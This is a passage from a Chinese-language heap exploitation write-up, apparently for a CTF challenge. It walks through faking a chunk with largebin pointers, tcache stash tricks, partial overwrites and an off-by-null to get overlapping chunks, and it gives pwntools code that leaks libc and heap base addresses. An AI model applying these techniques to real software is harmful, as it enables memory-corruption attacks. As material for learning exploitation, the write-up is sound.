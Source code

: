 
形成的效果就是上面這張圖的樣子。其中 chunk A 完成了對 fake chunk 的 size 和 fd，bk 指針的佈局。其中 fd 將指向 `&chunk_B - 0x18`並且破壞了 largebin 的 fd，之後我們會修復這個 fd 並使之指向 fake chunk。

由於 fake chunk 的 fd 指向 `&chunk_B - 0x18`，我們希望 chunk B 的 fd 指向 fake chunk。所以我們需要先把它 free 掉再申請回來，然後部分覆寫 fd 來實現。

chunk E 存在的意義是抬高堆地址，使之後 leak 堆地址的時候可以全部輸出。

在 chunk E 和 chunk C 中夾了一些 chunk，這些 chunk 會被 overlapping，便於之後繼續利用了，建議多夾一些，免得後來發現不夠用。

chunk C 未來會用來對 chunk D off-by-null，然後 free chunk D 的時候就可以向地址和並了。

---

fake chunk 的 size 已經被修改好，我們不希望在修復 large bin 的 fd 的同時把這個 size 破壞掉，所以必須把 chunk A free 到 fastbin 中。也需要把 chunk B 和 chunk C free 掉，並且希望 chunk B 的 fd 指針指向一個堆地址，部分覆寫後就可以使之指向 fake_chunk 了。

```python
for i in range(7):
    add(0x28,'tcache')
for i in range(7):
    delete(61 + 1 + i)

delete(54)
delete(60)
delete(53)

for i in range(7):
    add(0x28,'tcache')

# 53,54,60,62,63,64,65

add(0x28,'\x10') # 53->66
## stashed ##
add(0x28,'\x10') # 54->67
add(0x28,'a' * 0x20 + p64(0x240)) # 60->68
delete(61)
```

就是這樣，先把 Tcache 填滿，然後依次 free chunk B C A，再把 Tcache 清空，然後申請回 chunk A，部分覆寫，使 fd 指向 fake_chunk。

然後由於 Tcache 的 stash 機制，chunk B C 進入 Tcache，再申請回來的就是 chunk B，部分覆寫使 fd 指向 fake_chunk。

然後申請回 chunk C，進行 off-by-null。

free chunk D，成功實現 chunk overlapping。

然後進行 leak，需要把堆地址和 libc 地址都 leak 出來，leak 的方法有許多，這裏提供一種（這種方法肯定不是最好的方法，但是可以完成 leak 就行）

```
add(0x140,'pass') # 61
show(56)
libc_base = u64(sh.recv(6).ljust(0x8,'\x00')) - libc.sym["__malloc_hook"] - 0x10 - 0x60
log.success("libc_base:" + hex(libc_base))
__free_hook_addr = libc_base + libc.sym["__free_hook"]

add(0x28,'pass') # 69<-56
add(0x28,'pass') # 70<-57
delete(70)
delete(69)
show(56)
heap_base = u64(sh.recv(6).ljust(0x8,'\x00')) - 0x1A0
log.success("heap_base:" + hex(heap_base))
```
